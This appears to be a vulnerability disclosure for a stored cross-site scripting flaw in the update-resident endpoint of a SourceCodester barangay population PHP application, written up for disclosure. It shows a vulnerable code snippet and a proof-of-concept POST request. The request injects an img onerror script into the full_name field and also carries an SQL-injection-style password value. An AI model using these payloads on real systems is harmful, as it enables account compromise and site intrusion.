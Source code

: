 # SOURCECODESTER / Barangay Population System - update-resident.php STORED XSS

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17109/barangay-population-monitoring-system-using-php-mysql-and-chartjs-source-code.html

## Affected Component
> /endpoint/update-resident.php

## Code
```php
if (isset($_POST['full_name'], $_POST['address'], $_POST['contact_number'])) {
        $residentID = $_POST['tbl_resident_id'];
        $fullName = $_POST['full_name'];
        $address = $_POST['address'];
        $contactNumber = $_POST['contact_number'];

        try {
            $checkStmt = $conn->prepare("SELECT full_name FROM tbl_resident WHERE full_name = :full_name");
            $checkStmt->bindParam(":full_name", $fullName, PDO::PARAM_STR);
            $checkStmt->execute();
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /endpoint/update-resident.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 132

tbl_resident_id=1&full_name=%3e%3cimg%20src%3dx%20onerror%3dalert('NoChizPlZ')%3e&address=Purkok+1&contact_number=%28551%29+577-2147email=nochizplz%40nochizplz.com&password=nochizplz'+or+1%3d1+limit+1%23
```

## Screenshot
